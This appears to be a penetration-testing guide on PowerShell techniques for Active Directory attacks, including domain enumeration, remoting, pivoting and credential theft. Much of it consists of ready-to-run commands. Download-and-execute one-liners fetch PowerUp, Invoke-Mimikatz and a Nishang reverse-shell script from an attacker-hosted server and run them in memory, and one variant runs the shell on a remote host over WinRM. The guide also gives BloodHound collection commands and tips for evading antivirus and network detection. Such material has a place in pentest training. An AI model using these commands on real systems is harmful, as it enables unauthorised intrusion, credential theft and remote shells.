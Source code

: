 # Powershell magic

This article is about using different techniques to achieve both enumeration of the domain, popping shells, pivoting and executing exploits to gain further access. Pivoting means to move across machines in an environment. Of course we use the prevalence of Powershell in modern Windows environments to our advantage. We also string together many of these tricks towards efficient and stealthy hacking with a small footprint. Powershhell can do a lot straight into memory without dropping files to disk. BOX01 will be the name of the example box in this article. 10.10.10.10 is also just an example of what would be your local IP address when performing such attacks. Hosting files for download from kali is easy using `python -SimpleHTTPServer 80`

It can also be wise to here set up a local certificate on the server and use HTTPS/443 to avoid detection by network security controls.

Most of these tricks can be employed with only a domain user.

### Downloading/uploading files

Downloading files to boxes willsometimes be necessary, but don't forget that Powershell has the ability to do so much both remotely and execute straight in memory, which is better when you need to be a ninja or bypass things like Antivirus.

This will download a file to the current folder with the same name. An interactive powershell is not necessary for running these commands. They can be ran straight from CMD.

`Powershell.exe -nop -exec bypass -c "IEX (New-Object System.Net.WebClient).Downloadfile('http://10.10.10.10/file.txt');"`

This will download to a specific folder and with a specific name as specified in the second argument of the DownloadFile function.

`Powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadFile('http://10.10.10.10/PowerView.ps1','C:\tmp\PowerView.ps1');"`

### BloodHound

BloodHound is a tool for mapping out the entire domain graphically.

`Powershell -exec bypass`

`Import-module sharphound.ps1`

`Invoke-BloodHound -CollectionMethod ACL,ObjectProps,Default -CompressData -SkipPing`

### Remoting

Once a domain user is acquired, a lot can be done in terms of remoting. In AD environments, a shell on a box is barely required given a certain set of criteria. One a domain user as been acquired you can use numerous commands to work remotely on boxes you have access to either through domain or local privileges on the remote box. Windows has three ways of providing authenticated access: credentials, hash or tokens. You can see those differnet types of access below:

If file shares are available on a box you can use dir on the path without ever getting prompted for a password given that you already have a shell as the user you want to authenticate as. This means if you somehow got a shell without credentials or a hash, you still have your token to verify your identity to remote services. See command below for a simple verification.

`dir \\BOX01\c$\`

If you however don't have a shell but the credentials of a domain user you can use the somewhat old school [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-xp/bb490994%28v=technet.10%29). This \_will \_prompt you for password, but can be ran without a shell from your own machine.

/netonly : Indicates that the user information specified is for remote access only.

`runas /netonly /FQDN\user cmd.exe`

Run the following command to execute powershell and get on a remote box

`runas /netonly /user:customer\ank powershell`

Using WMIC, check which users have sessions on a remote machine. Local administrator privileges are not necessary to execute this remotely.

```
wmic /node:box01.lab.local path win32_loggedonuser get antecedent
```

Powershell supports WinRM natively, which allows remote execution of commands. Here is how to execute a command on a remote box the current user has access to only using tokens, \(no prompt for password or PTH\). Here the hostname command is used for verification, but you can essentially replace it with any command, like powershell.

`Invoke-Command -ComputerName BOX01 -Scriptblock {hostname}`

If you want to go even harder, you can set up credentials in Powershell. This is something that Empire can do natively with functions like ps\_remoting.

`$username = 'DOMAIN\USERNAME'; $password = 'PASSWORD'; $securePassword = ConvertTo-SecureString $password -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword; Invoke-Command -ComputerName BOX01 -Credential $credential  -ScriptBlock {hostname};`

### Powerview

Powerview is a super useful set of tools for enumerating a domain. It is part of the much larger toolset of Powersploit, and development is huge on this, so things change all the time.The script and full command list for Powerview can be found here:

[https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)

PowerView might be blocked by antivirus, see this funny little article on how to "bypass" it. This actually worked in a real environment in 2018. https://implicitdeny.org/2016/03/powerview-caught-by-sep/

In powerview, there is a super useful function called `Find-LocalAdminAccess` which enumerates which machines the current user is local administrator on. This can be very useful, as you can then remotely execute things like mimikatz on those boxes straight into memory to get the credentials of domain users. If you need an overview of what groups and users are local admin on every box in the environment you can use `Invoke-EnumerateLocalAdmin`

If you want to go hail mary and fuck shit up you can run every single module in Powerview:

In PowerUp.ps1, add `Invoke-AllChecks` at the bottom of the file. This makes the powershell script execute that function straight into memory after the string has been downloaded. This works for any function inside a powershell-script.

`Powershell.exe -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.47/PowerUp.ps1'); Invoke-AllChecks”`



### Mimikatz

Similar as with powervioew, add a line at the bottom of the ps1 file stating the command you want to execute.  Immediate results straight in the terminal!

```
Powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/Invoke-Mimikatz.ps1');"
```

### Shells

Ninshang shells are the shit [https://github.com/samratashok/nishang/tree/master/Shells](https://github.com/samratashok/nishang/tree/master/Shells)

```
Powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/Invoke-PowerShellTcp.ps1');"
```

We can do the same thing remotely to a box we have access to using WinRM.

```powershell
Invoke-Command -ComputerName BOX01  -Scriptblock {Powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClien
t).DownloadString('http://10.10.10.10/Invoke-PowerShellTcp.ps1');"}
```

Should also start looking into using HTTPS shells here to avoid detection.


### Invoke-Kerberoast

kerberoasting is a technique

[https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/](https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/)

[https://room362.com/post/2016/kerberoast-pt1/](https://room362.com/post/2016/kerberoast-pt1/)

